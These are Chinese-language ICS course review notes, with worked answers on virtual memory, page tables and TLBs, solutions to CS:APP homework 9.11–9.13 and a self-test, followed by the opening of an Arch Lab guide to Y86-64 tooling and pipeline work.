见 19.2 节。虚拟地址空间和物理内存都被划分成同样大小的页（P = 2p 字节）；虚拟页共 2n−p 个，物理页共 2m−p 个，通常前者远多于后者。每个虚拟页处于未分配、已缓存、未缓存三种状态之一；已缓存的虚拟页对应某一个物理页，未缓存的只在磁盘上，未分配的什么也不对应。由于 DRAM 缓存是全相联的，任何虚拟页都可以放在任何物理页中，对应关系由页表记录，并可以随时改变：同一个虚拟页这次调入 PP 3，换出后下次可能调入 PP 0。课件 p.14 的图中，VP 1、VP 2 等已缓存，几个物理页仍然空闲。
1（6）基于课件第 16～17 页，以 Page Hit 场景为例，说明页表的结构和操作过程。
见 19.3 节。页表是 PTE 的数组，第 i 项对应虚拟页 i；每个 PTE 有有效位和地址字段，有效时地址字段是物理页号，无效时是 null 或磁盘地址。页命中的过程是：CPU 访问 VP 2 中的一个字，MMU 用 VPN = 2 作为下标读出 PTE 2，有效位为 1，取出其中的物理页号，与页内偏移拼成物理地址，访问 DRAM 得到数据。整个过程由硬件完成。
1（7）基于课件第 18～24 页，以 Page Fault 场景为例，结合之前学习的异常处理，说明这种情况下页表的操作。
见 19.3 节。访问 VP 3 时 PTE 3 的有效位为 0，MMU 触发缺页异常。这是第 16 讲的故障：处理器进入内核模式，按异常号查异常表，调用缺页处理程序。处理程序选择牺牲页 VP 4（在 PP 3 中），如果它被修改过就写回磁盘，把 PTE 4 的有效位清零、地址字段改为它在磁盘上的位置；然后把 VP 3 从磁盘读入 PP 3，把 PTE 3 改为有效、指向 PP 3。最后执行 iret 返回，并恢复到用户模式。作为故障，返回的是引起异常的那条指令（第 16 讲 16.2 节），movl 被重新执行，这一次页命中。页表中变化的只有 PTE 3 和 PTE 4 两项。
1（8）对照课件第 16 页和第 25 页，解读新分配页的操作，并结合之前学习的编程相关内容，推测在什么情况下会发生新分配页。
见 19.4 节。p.16 中 PTE 5 是 null，VP 5 未分配；p.25 中操作系统为 VP 5 在磁盘上分配了空间，PTE 5 改为指向这个磁盘位置，有效位仍为 0，此后第一次访问时才通过缺页调入。会发生新分配页的情况有：malloc 申请大块内存或者堆通过 brk 增长；递归调用等使栈向下增长到新的页；execve 加载程序，为代码段、数据段、bss 段分配虚拟页；mmap 映射文件或匿名内存；fork 为子进程建立地址空间。默认环境上 malloc 64 MB 只产生 3 次缺页，逐页写一遍才产生 16 383 次，说明分配只是建立映射，物理页要到第一次访问时才给出。
1（9）基于课件第 26 页，分析虚拟存储在局部性原理（空间、时间）、命中、不命中（是否也有三种？）这些方面，和之前学习的高速缓存有什么异同。
见 19.4 节和 表 2。相同点：两者都依赖时间局部性（工作集留在缓存中）和空间局部性（一次调入整块或整页）；都有命中和不命中；不命中也可以分类。冷不命中两者都有，第一次访问一页总是缺页；容量不命中对应工作集超过物理内存时的抖动；冲突不命中在虚拟内存中不存在，因为 DRAM 缓存是全相联的，只要还有空闲的物理页，任何虚拟页都可以放进去，所以虚拟内存的不命中只有两种。不同点：块与页的大小相差约 64 倍；不命中的代价相差上万倍；高速缓存的不命中完全由硬件处理，缺页由操作系统软件处理，因而可以使用复杂的替换算法；虚拟内存总是写回。
研讨题 2：内存管理、保护与地址翻译#
2（1）基于课件第 28～29 页，说明虚拟存储作为内存管理的工具，主要有哪些用途。再基于课件第 30 页，说明虚拟存储对链接和加载的影响。
见 19.5 节。每个进程有独立的虚拟地址空间，带来两个用途：一是简化内存分配，任何虚拟页可以映射到任何物理页，连续的虚拟页不需要连续的物理页；二是共享，把不同进程的虚拟页映射到同一个物理页，如共享库的代码（默认环境上三个进程中 printf 的物理地址相同）。对链接的影响：每个程序的虚拟地址空间布局相同，代码段从固定的地址开始，链接器可以在链接时就确定所有符号的虚拟地址，不必知道程序将被放在物理内存的哪里。对加载的影响：execve 只为 .text、.data 分配虚拟页、建立无效的 PTE，并不复制内容，程序运行时由虚拟内存系统按页、按需从可执行文件中调入。
2（2）基于课件第 32 页，说明虚拟存储如何实现存储保护，并对每个权限位进行解释。
见 19.6 节。每次访存都要经过 MMU 查 PTE，于是在 PTE 中加上权限位，MMU 每次访问时检查。SUP 位为 Yes 表示只有内核模式才能访问；READ、WRITE 分别表示能否读、写；EXEC 表示能否作为指令执行。违反权限时触发保护故障，Linux 向进程发送 SIGSEGV。默认环境上写字符串常量、写代码页报告 SEGV_ACCERR，访问地址 0 报告 SEGV_MAPERR。由于每个进程有自己的页表，同一个物理页在不同进程中可以有不同的权限；而用户进程的页表中不会出现指向其他进程私有物理页的 PTE，这本身也是一种保护。
2（3）基于课件第 35～36 页，先解释各个名词含义，包括 VA、VPO、VPN、PA、PPO、PPN，再分步骤说明地址转换的过程。
名词见 19.7 节 表 3：VA 是虚拟地址，VPO 是它的低 p 位（页内偏移），VPN 是高 n − p 位（虚拟页号）；PA 是物理地址，PPO 是它的低 p 位（与 VPO 相同），PPN 是高 m − p 位（物理页号）。（题目中第二次出现的 VPO、VPN 应是 PPO、PPN。）转换分四步：从虚拟地址中切出 VPN 和 VPO；以页表基址寄存器 PTBR 加上 VPN 乘以 PTE 大小，得到 PTE 的地址并取出 PTE；检查有效位，为 0 则缺页；为 1 则取出 PPN，与 VPO 拼成物理地址。
2（4）基于课件第 37～38 页，在结构图上解读 Page Hit 和 Page Fault 两种情况下，地址转换的步骤。再基于课件第 39 页，详细说明各种情况下的数据流转经过哪些线条，包括 PTEA hit、PTEA miss、PA hit、PA miss。
两种情况的步骤见 19.7 节：页命中五步，CPU→MMU（VA）、MMU→缓存或内存（PTEA）、缓存或内存→MMU（PTE）、MMU→缓存或内存（PA）、缓存或内存→CPU（数据）；缺页七步，前三步相同，第四步 MMU 触发异常，第五步处理程序换出牺牲页，第六步调入新页并更新 PTE，第七步返回并重新执行该指令。
p.39 的图中 L1 位于 MMU 与内存之间，四种情况经过的线条如下。PTEA 命中：MMU 把 PTEA 送到 L1，L1 直接把 PTE 送回 MMU。PTEA 不命中：PTEA 从 L1 继续送到内存，内存把 PTE 送回 L1，L1 再送给 MMU。PA 命中：MMU 把 PA 送到 L1，L1 把数据送回 CPU。PA 不命中：PA 从 L1 送到内存，内存把数据送回 L1，再由 L1 送给 CPU。一次访存要经过“取 PTE”和“取数据”两个阶段，每个阶段各自可能命中或不命中，组合起来有四种。
2（5）基于课件第 40 页，解释 TLB 的作用，并说明：为什么要有 TLB；TLB 和 L1 Cache 之间是什么关系。结合后面的内容，分析 TLB 为什么叫这个名字。
见 19.8 节。TLB 是 MMU 中缓存 PTE 的小型组相联缓存，作用是加速地址翻译。没有 TLB 时，每次访存都要先取一次 PTE，即使 PTE 在 L1 中也要多花几个周期，PTE 还可能被其他数据挤出 L1。TLB 与 L1 是两个独立的缓存：TLB 在前，用 VPN 查找，结果是 PPN；L1 在后，用物理地址查找，结果是数据。TLB 不命中时，MMU 去取的 PTE 本身也可能在 L1 中。名字中的 translation 指它缓存的是地址翻译的结果，lookaside buffer 指 MMU 在查页表之前“先在旁边看一眼”的缓冲区。
2（6）基于课件第 41～42 页，说明 TLB 的结构和操作过程，并对比和之前学习的高速缓存的结构及操作过程的异同。
见 19.8 节 图 11。TLB 有 T = 2t 组，每组若干行，每行有有效位、标记和一个 PTE。查找时用 VPN 的低 t 位 TLBI 选组，用其余高位 TLBT 与组内各行的标记比较，相同且有效即命中，从该行的 PTE 得到 PPN。与第 13 讲的组相联高速缓存相比，结构和查找步骤完全相同：组索引选组、标记比较、有效位。不同之处在于：TLB 的“地址”是 VPN，没有块偏移，因为每行只存一个 PTE，页内偏移 VPO 不参与查找；TLB 行中存的是 PTE 而不是数据块；TLB 很小，通常几十到上千项；TLB 由 MMU 在翻译时使用，不直接为 CPU 提供数据。
2（7）基于课件第 43～44 页，说明 TLB Hit 和 Miss 两种情况下访存的过程，并对比和第 37 页操作过程的异同。
见 19.8 节。TLB 命中：CPU 送出 VA，MMU 用 VPN 查 TLB 得到 PTE，构造 PA 送给缓存或内存，数据返回 CPU，共五步，没有一次为取 PTE 而访问缓存或内存。TLB 不命中：MMU 用 PTEA 从缓存或内存取出 PTE，放入 TLB，再构造 PA，比命中多了一次访存，这与 p.37 的页命中过程相同。所以 p.37 描述的其实是“TLB 不命中、页命中”的情况。TLB 不命中很少见，因为一个 TLB 项覆盖一整页，程序的局部性使同一页被反复访问；默认环境上，随机访问的范围超过几十个页时 L1 TLB 开始不命中，每次访问的时间从约 1.5 ns 升到约 3.7 ns，超过几千个页时升到 50 ns 以上（图 13）。
2（8）基于课件第 45～46 页，解读为什么需要多级页表，对比示例中的二级页表和之前一级页表之间的区别。
见 19.9 节。48 位地址、4 KB 页、8 字节 PTE 时，一级页表要 236 个 PTE，共 512 GB，而且每个进程一张，不可能放在内存中；其中绝大部分 PTE 对应未分配的地址，都是 null。二级页表只为实际用到的区域建立二级页表，未用到的大片区域在一级页表中只占一个 null 的 PTE。p.46 的例子（32 位地址、4 KB 页、4 字节 PTE）中，一级页表需要 4 MB，二级页表只需要一张一级页表和三张二级页表，共 16 KB。另一个区别是二级页表可以按需调入调出，只有一级页表必须常驻内存。代价是翻译一个地址要访问两个 PTE，这由 TLB 弥补。
2（9）基于课件第 47 页和之前的两页，将二级页表推广到 k 级页表，说明地址转换的过程。
见 19.9 节。VPN 被分成 k 段 VPN 1、…、VPN k。PTBR 指向一级页表；第 i 级页表中由 VPN i 选出的 PTE 给出第 i + 1 级页表的基址，i = 1、…、k − 1；第 k 级页表中由 VPN k 选出的 PTE 给出 PPN，PPN 与 VPO 拼成物理地址。任何一级的 PTE 无效，都表示这部分地址空间没有分配或不在内存中，触发缺页。每级页表的大小通常正好一页，所以每段 VPN 的位数是 log2（一页中的 PTE 数），例如 x86-64 每页 512 个 8 字节 PTE，每段 9 位，四级共 36 位，加上 12 位的 VPO 正好是 48 位虚拟地址。
第三部分 作业题解答：9.11、9.12、9.13#
三道题在中文版第 614–615 页，都使用 19.10 节的小内存系统（教材图 9-19、9-20）。题目要求对给定的虚拟地址写出：A. 虚拟地址的二进制格式；B. 地址翻译（VPN、TLB 索引、TLB 标记、TLB 是否命中、是否缺页、PPN）；C. 物理地址的二进制格式；D. 物理内存访问（字节偏移、高速缓存索引、标记、是否命中、返回的字节）。高速缓存不命中时，返回的字节填“—”；发生缺页时 PPN 填“—”，C、D 两部分留空。三题的结果都用模拟程序 vm.py 核对过。
作业 9.11#
9.11虚拟地址：0x027c
A. 0x027c 写成 14 位二进制是 00 0010 0111 1100。低 6 位 111100 是 VPO = 0x3c，高 8 位 00001001 是 VPN。
表 8 作业 9.11 的答案
| 参数 | 值 | 说明 |
|---|---|---|
| VPN | 0x09 | 第 6–13 位 00001001 |
| TLB 索引 | 0x1 | VPN 的低 2 位 01 |
| TLB 标记 | 0x02 | VPN 的高 6 位 000010 |
| TLB 命中？ | 否 | 第 1 组中标记为 02 的那一行无效 |
| 缺页？ | 否 | PTE 0x09：PPN = 17，有效 |
| PPN | 0x17 | |
| 物理地址 | 0x5fc | 0101 1111 1100（C） |
| 字节偏移 CO | 0x0 | 低 2 位 00 |
| 高速缓存索引 CI | 0xF | 第 2–5 位 1111 |
| 高速缓存标记 CT | 0x17 | 高 6 位 010111 |
| 高速缓存命中？ | 否 | 第 F 组的标记是 14，且无效 |
| 返回的字节 | — |
这一题的陷阱在 TLB：第 1 组中确实有一行标记为 02，但它的有效位是 0，所以不命中。不命中后查页表，PTE 0x09 有效，没有缺页。物理地址是 PPN 0x17 拼上 VPO 0x3c：0x17 × 64 + 0x3c = 0x5c0 + 0x3c = 0x5fc。
作业 9.12#
9.12虚拟地址：0x03a9
A. 0x03a9 写成 14 位二进制是 00 0011 1010 1001。VPO = 101001 = 0x29，VPN = 00001110 = 0x0E。
表 9 作业 9.12 的答案
| 参数 | 值 | 说明 |
|---|---|---|
| VPN | 0x0E | 第 6–13 位 00001110 |
| TLB 索引 | 0x2 | VPN 的低 2 位 10 |
| TLB 标记 | 0x03 | VPN 的高 6 位 000011 |
| TLB 命中？ | 否 | 第 2 组中标记为 03 的那一行无效 |
| 缺页？ | 否 | PTE 0x0E：PPN = 11，有效 |
| PPN | 0x11 | |
| 物理地址 | 0x469 | 0100 0110 1001（C） |
| 字节偏移 CO | 0x1 | 低 2 位 01 |
| 高速缓存索引 CI | 0xA | 第 2–5 位 1010 |
| 高速缓存标记 CT | 0x11 | 高 6 位 010001 |
| 高速缓存命中？ | 否 | 第 A 组的标记是 2D，不等于 11 |
| 返回的字节 | — |
TLB 同样是“标记相同但无效”的陷阱。高速缓存第 A 组是有效的，但标记 2D 与 11 不同，所以不命中。
作业 9.13#
9.13虚拟地址：0x0040
A. 0x0040 写成 14 位二进制是 00 0000 0100 0000。VPO = 000000 = 0x00，VPN = 00000001 = 0x01。
表 10 作业 9.13 的答案
| 参数 | 值 | 说明 |
|---|---|---|
| VPN | 0x01 | 第 6–13 位 00000001 |
| TLB 索引 | 0x1 | VPN 的低 2 位 01 |
| TLB 标记 | 0x00 | VPN 的高 6 位 000000 |
| TLB 命中？ | 否 | 第 1 组中没有标记为 00 的行 |
| 缺页？ | 是 | PTE 0x01 无效 |
| PPN | — | 缺页，没有物理页 |
C、D 两部分留空：缺页时没有物理地址，内核的缺页处理程序会把这一页调入，再重新执行这条指令。
⚠ 三道题合起来看
三道题恰好覆盖了练习题 9.4 之外的几种组合：9.4 是 TLB 命中、高速缓存命中；9.11、9.12 是 TLB 不命中、页表命中、高速缓存不命中；9.13 是 TLB 不命中、缺页。共同的易错点是 TLB 中“标记对上了但无效”的行（9.11、9.12），以及高速缓存中“有效但标记不同”的组（9.12）：判断命中要同时检查有效位和标记。
第四部分 复习速查#
4.1 概念与对应关系#
表 11 虚拟内存的三个角色（19.2–19.6 节）
| 角色 | 要点 |
|---|---|
| 缓存工具 | 虚拟页缓存在物理页中；页 4 KB；全相联；写回；软件替换；不命中（缺页）代价约 106 周期；按需调页 |
| 内存管理工具 | 每个进程一张页表、一个私有地址空间；任意虚拟页映射到任意物理页；共享 = 映射到同一物理页；链接时地址固定，加载时按需调入 |
| 内存保护工具 | PTE 中的 SUP、READ、WRITE、EXEC 位；MMU 每次访问时检查；违反时保护故障，Linux 发 SIGSEGV |
表 12 虚拟页的状态与 PTE（19.2–19.4 节）
| 状态 | PTE | 访问时 |
|---|---|---|
| 未分配 | 有效位 0，地址 null | 访问是错误（SIGSEGV） |
| 已分配、未缓存 | 有效位 0，地址为磁盘位置 | 缺页：处理程序调入，重新执行该指令 |
| 已缓存 | 有效位 1，地址为物理页号 | 页命中，硬件完成翻译 |
4.2 地址翻译#
表 13 地址的划分（19.7–19.9 节）
| 地址 | 字段（从高位到低位） |
|---|---|
| 虚拟地址（n 位） | VPN（n − p 位） | VPO（p 位） |
| 查 TLB 时的 VPN | TLBT（n − p − t 位） | TLBI（t 位，T = 2t 组） |
| k 级页表时的 VPN | VPN 1 | VPN 2 | … | VPN k |
| 物理地址（m 位） | PPN（m − p 位） | PPO（p 位，= VPO） |
| 查高速缓存时的物理地址 | CT | CI | CO（第 13 讲） |
一次访存的完整流程：VA → 切出 VPN、VPO → 用 TLBI、TLBT 查 TLB → 命中则得到 PPN；不命中则用 PTBR + VPN × PTE 大小取 PTE（可能在 L1 中）→ PTE 无效则缺页（故障，处理后重新执行）→ PA = PPN 拼 VPO → 用 CT、CI、CO 查高速缓存 → 命中则返回数据，不命中则从内存取块。
表 14 常用的计算（19.9 节）
| 问题 | 算法 |
|---|---|
| 虚拟页数 | 2n / 2p = 2n−p |
| 一级页表大小 | 2n−p × PTE 大小；48 位、4 KB、8 字节 PTE 时为 512 GB |
| 一张页表放在一页中时的 PTE 数 | 页大小 / PTE 大小；4 KB / 8 B = 512，每级 VPN 9 位 |
| x86-64 的四级页表 | 48 = 9 + 9 + 9 + 9 + 12；五级页表时虚拟地址为 57 位 |
| TLB 的 TLBI 位数 | log2（组数）= log2（项数 / 路数） |
4.3 易错点#
表 15 本讲的易错点
| 容易错的说法 | 正确的理解 |
|---|---|
| malloc 之后就占用了物理内存 | malloc 只分配虚拟页；第一次访问每一页时才缺页并分配物理页 |
| 缺页是程序出错 | 缺页是正常的故障，处理程序调入页后重新执行该指令；访问未分配的页才是错误 |
| 缺页处理程序返回下一条指令 | 返回引起缺页的那条指令，重新执行 |
| 虚拟内存也有冲突不命中 | DRAM 缓存是全相联的，没有冲突不命中 |
| TLBI 取虚拟地址的低位 | TLBI、TLBT 都从 VPN 中切出，VPO 不参与查 TLB |
| CI、CT 从虚拟地址中切 | 高速缓存用物理地址，先翻译再查 |
| TLB 不命中就是缺页 | TLB 不命中时还要查页表；页表有效就不缺页 |
| 标记相同就是命中 | 还要有效位为 1（作业 9.11、9.12） |
| 同一个虚拟地址就是同一块内存 | 不同进程中同一个虚拟地址可以对应不同的物理地址 |
| 多级页表让翻译变慢很多 | TLB 缓存最终结果，命中时一次页表都不查 |
4.4 中英术语对照#
表 16 术语对照
| 英文 | 中文 | 说明 |
|---|---|---|
| virtual memory (VM) | 虚拟内存 | 也译作虚拟存储器 |
| physical / virtual address | 物理地址 / 虚拟地址 | PA / VA |
| memory management unit (MMU) | 内存管理单元 | CPU 芯片上做地址翻译的硬件 |
| page / page frame | 页 / 页帧 | 虚拟页 VP、物理页 PP |
| page table, PTE | 页表、页表条目 | 每进程一张，在 DRAM 中 |
| page hit / page fault | 页命中 / 缺页 | DRAM 缓存的命中与不命中 |
| demand paging | 按需调页 | 不命中时才调入 |
| working set, thrashing | 工作集、抖动 | |
| page table base register (PTBR) | 页表基址寄存器 | x86-64 中是 CR3 |
| TLB | 翻译后备缓冲器 | 缓存 PTE 的小型硬件缓存 |
| multi-level page table | 多级页表 |
第五部分 自测题#
每题先自己做，再看答案。
1．某系统有 32 位虚拟地址、4 KB 的页、4 字节的 PTE。(a) VPN 和 VPO 各几位？(b) 虚拟页有多少个？(c) 一级页表有多大？
2．把下面的高速缓存概念与虚拟内存的概念一一对应：块、组相联、标记与有效位、不命中、不命中处理程序。
3．用 19.10 节的小内存系统翻译虚拟地址 0x015c，写出 VPN、TLBI、TLBT、TLB 是否命中、是否缺页、PPN、物理地址、CO、CI、CT、高速缓存是否命中、返回的字节。
4．一个程序 malloc 了 40 MB，只访问了其中前 4 MB，每页至少访问一次。大约会发生多少次缺页？为什么不是 10 240 次？
5．下面哪些访问会被 MMU 拦下并导致 SIGSEGV？(a) 读自己的全局变量；(b) 写一个字符串常量；(c) 读地址 0；(d) 访问 malloc 后从未写过的内存；(e) 在用户态读内核的地址。
6．一个系统有 48 位虚拟地址、4 KB 的页，TLB 有 64 项、4 路组相联。TLBI 和 TLBT 各几位？
7．32 位地址、4 KB 页、4 字节 PTE 的二级页表系统中，一个进程只使用了地址空间最开头的一页和最末尾的一页。它的页表总共占多少空间？
8．为什么大多数系统的高速缓存用物理地址而不是虚拟地址寻址？
9．虚拟内存会有冲突不命中吗？抖动属于哪一类不命中？
10．缺页处理程序返回后，处理器从哪里继续执行？与第 16 讲的哪一类异常相同？
自测题答案#
1．(a) VPO 12 位，VPN 20 位。(b) 220 个，约 100 万。(c) 220 × 4 字节 = 4 MB，每个进程一张（19.9 节）。
2．块对应页；组相联对应全相联（任何虚拟页可以放在任何物理页中）；标记与有效位对应 PTE 中的有效位与地址；不命中对应缺页；不命中由硬件处理，缺页由操作系统的缺页处理程序处理（19.2 节，表 2）。
3．0x015c = 00 0001 0101 1100，VPN = 0x05，VPO = 0x1c；TLBI = 1，TLBT = 0x01；第 1 组中没有标记为 01 的行，TLB 不命中；PTE 0x05 有效，PPN = 0x16，不缺页；物理地址 = 0x16 拼 0x1c = 0101 1001 1100 = 0x59c；CO = 0，CI = 0x7，CT = 0x16；第 7 组标记 16、有效，命中，返回 0x11（vm.py 核对）。
4．约 1024 次（4 MB / 4 KB）。malloc 只分配虚拟页，没有访问过的 36 MB 从未被调入，不产生缺页；默认环境上 malloc 64 MB 只产生 3 次缺页，逐页写一遍才产生 16 383 次（19.3 节）。
5．(b)、(c)、(e)。(b) 违反 WRITE 权限（SEGV_ACCERR）；(c) 地址 0 所在的页没有分配（SEGV_MAPERR）；(e) 内核地址只能在内核模式访问。(d) 只会发生正常的缺页，内核分配一个清零的物理页，程序照常运行（19.3、19.6 节）。
6．VPN 有 48 − 12 = 36 位；TLB 有 64 / 4 = 16 组，TLBI 4 位；TLBT 36 − 4 = 32 位（19.8 节）。
7．12 KB：一张一级页表（4 KB），以及分别覆盖开头 4 MB 和末尾 4 MB 的两张二级页表（各 4 KB）。一级页表的其余 1022 个 PTE 都是 null（19.9 节）。
8．用物理地址时，多个进程可以同时在缓存中有块，共享同一物理页的进程自然共享缓存中的块，缓存也不必处理访问权限，因为权限在翻译时已经检查过（19.7 节）。
9．没有冲突不命中，因为 DRAM 缓存是全相联的。抖动是工作集超过物理内存造成的，属于容量不命中（19.4 节）。
10．返回到引起缺页的那条指令，重新执行它。缺页属于故障，故障处理程序修复了问题就返回当前指令（第 16 讲 16.2 节）。
—— 第 19 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · Lab 专题
Arch Lab：Y86-64 汇编、流水线的演化与 ncopy 优化（Optimizing a Pipelined Processor）
如何使用本讲义#
Arch Lab 把第 9–11 讲的处理器体系结构变成了动手的任务，而且本学期的版本与 CS:APP 教材附带的原版相差很大。Part A 仍是写三个 Y86-64 程序；Part B 改成了“补全八个架构”：先给 SEQ 加一条 iopq 指令，再沿着 pipe_s2 → s3a → s3b → s3c → s3d → s4a → s4b → s4c 这条路线，看一个两级流水线怎样一步步变成教材的五级 PIPE；Part C 仍是优化 ncopy，但评分不再只看 CPE，而是看 c = cpe + 2 × ac，其中 ac 是处理器关键路径的长度。工具也全部换成了 Rust 写的新版本，HCL 是一种独立的文本格式。
学期末的 Lab 测验是纸笔的单选题，所以本讲义的重点不在“怎样拿到满分的提交文件”，而在把每一步为什么这样做讲清楚：一条 Y86-64 指令怎样编码、在流水线里走到哪一级；某个 HCL 信号为什么读 E 而不是 D；加一级流水线会消除哪种冒险、又会引入哪种冒险；关键路径为什么会变短。
本讲义先用第 0 部分讲上手与测评，正文分六部分。第一部分讲 Lab 的结构、评分、工具和本 Lab 的 HCL 写法。第二部分是 Part A 的三个程序。第二部分还介绍了从 gcc 的 x86-64 输出逐行翻译、再化简的写法。第三部分是 Part B：先由 irmovq 和 OPq 推出 iopq，再逐个讲解七个填空架构，每个空都从它所在的信号、相关指令此刻所在的级出发分析，配有流水线时间线。第四部分是 Part C：从原始程序和 Part B 的架构出发，先用第 11 讲之前的办法，再用循环展开，最后找出关键路径并拆开，成功和失败的尝试都给出实测数据。第五部分按 Lab 测验的题型给单选例题，第六部分是速查表和单选自测题。为了让目录保持在一页之内，第五、六部分的小节不列入目录。
文中的程序和 HCL 都用 handout 自带的工具运行过：Part A 的三个程序、Part B 的八个架构和 Part C 的最终版本都通过了 grader 的检查。Part B 中各架构“逐周期与标准答案比对”的检查只在 Autolab 上进行，本地无法复现；第 3.7 节讨论的转发顺序（两行对调后 grader 的本地测试照样通过）是用专门编写的小程序检验的。s4b、s4c 模板中有一处必须改动的笔误，见第 3.8 节。
表 1 本讲义的内容地图
| 部分 | 内容 | 小节 |
|---|---|---|
| 上手与测评 | 环境、材料、构建与自测、按 Part 的起步路线、提交前自检 | 0.1–0.4 |
| 规则与工具 | 三个 Part 与评分、工具链、本 Lab 的 HCL、关键路径长度 ac | 1.1–1.4 |
| Part A | 程序骨架、sum.ys、rsum.ys、bubble.ys、从 x86-64 翻译、常见错误 | 2.1–2.6 |
| Part B | 由 irmovq、OPq 推出 iopq；七个填空架构逐空分析 | 3.1–3.9 |
| Part C | 目标与 cpe 要求、手头的架构、第 11 讲的办法、循环展开、余数、拆开关键路径 | 4.1–4.7 |
| 测验题型 | 单选：编码与程序、HCL 信号、数周期、关键路径与评分 | 5.1–5.4 |
| 速查与自测 | 一页纸速查、易错点、自测题与答案 | 第六部分 |
0 上手与测评#
Arch Lab 分三个 Part，层层递进：Part A 用 Y86-64 写三个小程序，熟悉指令集和工具；Part B 先给 SEQ 加一条 iopq 指令，再补全七个流水线架构的 HCL；Part C 同时修改汇编和处理器，让 ncopy 跑得尽可能快。本学期的工具链是预编译好的 Rust 程序，不需要自己构建模拟器，但正因为如此，不少麻烦并不来自实验本身，而是来自运行环境、工作目录和文件同步。这一部分先把这些事情讲清楚，再给出三个 Part 的起步路线和一张“报错现象到原因”的速查表。
0.1 环境与材料#
handout 的 bin/ 目录里有 yas（汇编器）、yis（指令集参考模拟器）、ysim（按 HCL 描述逐周期运行的模拟器）、ydb、y86-lsp 和 grader，它们都是 x86-64 Linux 的可执行文件。在 Apple Silicon 的 Mac 上直接运行会报“Exec format error”；如果是从别处复制过来、丢了执行权限，还会报“Permission denied”。可行的环境是课程的 xLab 容器，或者在本机用 Docker 运行一个 x86-64 的 Linux 容器（docker run --platform linux/amd64 -v "$PWD":/lab ...，在 ARM 处理器上靠模拟运行，速度慢一些）。第一次进入容器后先 chmod +x bin/*。
表 2 Arch Lab 的材料与用途
| 文件或目录 | 用途 | 使用要点 |
|---|---|---|
| archlab.pdf | 官方实验说明（9 页） | 先读 §3–§5 的工具与 Part A、§6 Part B、§7 Part C、§8–§10 评分与提交 |
| bin/ | 预编译工具 | 在 handout 根目录用 ./bin/yas 这样的路径调用 |
| architectures/ | Part B、Part C 的 HCL | seq_full 加 iopq；七个 pipe_s3a…s4c 填空；ncopy.hcl 属于 Part C |
| misc/ | Part A、Part C 的 Y86 程序 | sum.ys、rsum.ys、bubble.ys、ncopy.ys；examples.c 是 Part A 三个函数的 C 版本，可以先用 gcc 编译成 x86-64 汇编，作为翻译的起点（第 2.5 节） |
| docs/hcl-lang.md | HCL 语言参考 | 信号类型、流水线寄存器、@set_input / @set_stage 的写法 |
另一个容易被忽略的问题是工作目录。grader 按相对路径 misc/sum.ys 找文件，ysim 也按相对路径找 architectures/ 下的架构，所以这些命令都要在 handout 的根目录（能同时看到 bin/、misc/、architectures/ 的那一层）运行。在 misc/ 里运行 grader，会报“misc/sum.ys check failed: No such file or directory”；在错误的目录里运行 ysim，甚至可能读到另一份未修改的文件，报告“还有没填的空”。遇到这类莫名其妙的错误，先 pwd 一下。
还有文件同步。如果一边在容器里改、一边在本机的编辑器里看，两处的文件很容易不一致，结果分析了一份早已改掉的旧文件。答案最终要从容器提交，但草稿和笔记应当在本机也保存一份；每次分析之前，确认自己看的是最新的版本。
0.2 运行、自测与评分#
三个 Part 用到的命令都很短，下面是一套完整的流程，全部在 handout 根目录执行：
./bin/yas misc/sum.ys && ./bin/yis misc/sum.yo # 汇编，并用参考模拟器运行
./bin/ysim misc/sum.ys --arch pipe_s3a -v # 在指定架构上逐周期运行
./bin/ysim --check architectures/pipe_s3a.hcl # HCL 语法与类型检查
./bin/ysim -I -A ncopy # 关键路径的层次（ac）
./bin/grader part-a # 也可以是 part-b、part-c
./bin/grader arch ncopy -i # 通用指令测试（含 iopq）
make handin # 打包提交文件yis 按指令集的定义运行程序，它的最终寄存器和内存就是标准答案；ysim 按 HCL 描述的硬件逐周期运行，加 -v 可以看到每个周期各级寄存器的内容。调试 Part B 时最有效的办法是写一个只有几条指令的小程序，让它恰好触发要检查的那种冒险，再对比 yis 和 ysim 的最终寄存器。比较两个相邻架构的 HCL（例如 pipe_s2 与 pipe_s3a）时，用编辑器的文件对比功能（VS Code 中选中两个文件、右键“Compare Selected”）比逐行阅读快得多，一眼就能看出这一步引入了什么。
评分是 Part A 15 分、Part B 25 分、Part C 60 分，合计 100 分。Part B 的本地 grader 只检查指令集语义，“与标准架构逐周期一致”要在 Autolab 上才能验证，所以本地通过不等于远程通过。Part C 看 c = cpe + 2 × ac，c ≤ 15 得满分 60（第 1.1 节）。Part C 每改一步，就跑一次 ./bin/grader part-c，把 cpe、ac、c 记进一张表里，既能看清每一步的效果，也能防止不知不觉的退步。
0.3 按 Part 的起步路线#
三个 Part 的依赖关系很强：先做 Part A 熟悉 Y86 与工具，再做 Part B，最后做 Part C。下表给出每一段的第一个动作和最容易卡住的地方。
表 3 Arch Lab 的起步路线
| 阶段 | 官方说明与目标 | 第一个动作 | 常见卡点与对应小节 |
|---|---|---|---|
| Part A | §5：sum、rsum、bubble 三个程序，各 5 分 | 对照 misc/examples.c，先从 gcc 生成的 x86-64 汇编逐行翻译，跑通之后再化简 | 参数由调用者在 call 之前放进 %rdi；负的十六进制偏移要改写成十进制；栈不要压到代码上。见 2.2–2.6 |
| Part B：SEQ | §6：给 seq_full 加 iopq（4 分） | 列出所有出现 OPQ、IRMOVQ 的信号，逐个问 iopq 像谁 | srcA 不改；aluA 取 valC、aluB 取 valB。见 3.1 |
| Part B：流水线 | §6：补全 pipe_s3a…s4c（每个 3 分） | 每一关先画 2–3 个周期的时间线，再写信号 | 信号前缀要和流水线寄存器一致（e_ 配 E.、m_ 配 M.）；停顿优先于气泡；模板中 !e_cnd 的笔误。见 3.2–3.9 |
| Part C | §7：同时优化 ncopy.ys 与 ncopy.hcl（60 分） | 先换成五级流水线压 ac，再加 iaddq、循环展开 | ac 只统计器件的串联，要降低 ac 必须插入寄存器。见 4.1–4.7 |
0.4 常见报错与原因#
遇到报错，先按现象分类，再决定去查哪里。下表收集的都是做这个实验时实际遇到的现象。
表 4 Arch Lab 的报错现象与原因
| 现象 | 可能的原因 | 怎么查、怎么改 |
|---|---|---|
| Exec format error、Permission denied | 在 ARM 的 Mac 上运行 x86-64 程序；没有执行权限 | 换到 Linux 容器；chmod +x bin/* |
| fail to parse ys file（带行列号） | 语法错误，如 irmovq %0x0、标号写成 L1.、retq | 按报告的行列修改；立即数要加 $，返回写 ret |
| panicked … Option::unwrap() on a None value | yas 遇到负的十六进制偏移（如 -0x8(%rbp)） | 负偏移一律写成十进制（第 1.1 节） |
